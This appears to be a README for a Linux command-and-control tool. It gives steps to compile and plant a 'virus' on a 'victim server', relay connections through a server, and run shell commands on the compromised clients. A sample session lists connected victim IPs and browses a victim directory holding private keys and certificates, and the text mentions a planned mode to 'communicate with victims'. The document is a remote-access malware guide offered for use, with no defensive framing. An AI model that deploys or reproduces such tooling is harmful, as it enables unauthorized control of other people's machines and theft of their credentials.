 Linux Server C2 Controller

Step 1:
Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:
Copy tcsl.cpp to your Linux Server
virus.cpp to your victim server
host.cpp to your local machine as control side
and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: 
Open 3 terminals and run the command seperately:
./tcsl
Support any amounts of Clients' connections
the Host and Client is auto-recognized:  
./virus
./host

Step 4:
Please use 'hs' followed with the client numbers you pick.
For example: 'hs 1'
Use 'hh' to check the connected clients.

Step 5:
Enjoy your commands in the host terminal and control your client as terminal.
For example:
Connected to the server.
No client connected.

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]


└─# exit

Exited.
Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2
Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]
└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
